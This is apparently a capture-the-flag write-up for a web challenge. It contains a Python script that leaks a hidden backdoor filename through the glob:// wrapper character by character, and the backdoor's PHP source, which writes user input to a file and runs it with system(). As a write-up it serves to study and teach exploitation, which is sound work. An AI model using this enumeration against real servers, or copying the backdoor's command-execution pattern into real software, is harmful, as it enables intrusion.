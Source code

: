 ## web2

filename 会传入 scandir 函数, 当目录存在时返回 yes 否则返回 no

通过 glob 协议 leak backdoor filename

```python
import requests

dicts = '0123456789abcdef'
flag = ''

i = 1

while True:
    for s in dicts:
        print('testing', s)
        url = 'http://172.10.0.5/'
        res = requests.post(url, data={
            'filename': 'glob:///var/www/html/backdoor_*' + flag + s + '*',
        })
        if 'yesyesyes!!!' in res.text:
            flag += s
            print('found!!!', flag)
            break
    i += 1
```

`backdoor_[a-f0-9]{16}.php`

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

if(isset($_GET['username'])){
    $sandbox = '/var/www/html/sandbox/'.md5("5050f6511ffb64e1914be4ca8b9d585c".$_GET['username']).'/';
    mkdir($sandbox);
    chdir($sandbox);
    
    if(isset($_GET['title'])&&isset($_GET['data'])){
        $data = $_GET['data'];
        $title= $_GET['title'];
        if (strlen($data)>5||strlen($title)>3){
            die("no!no!no!");
        }
        file_put_contents($sandbox.$title,$data);

        if (strlen(file_get_contents($title)) <= 10) {
            system('php '.$sandbox.$title);
        }
        else{
            system('rm '.$sandbox.$title);
            die("no!no!no!");
        }

    }
    else if (isset($_GET['reset'])) {
        system('/bin/rm -rf ' . $sandbox);
    }
}
?>
```
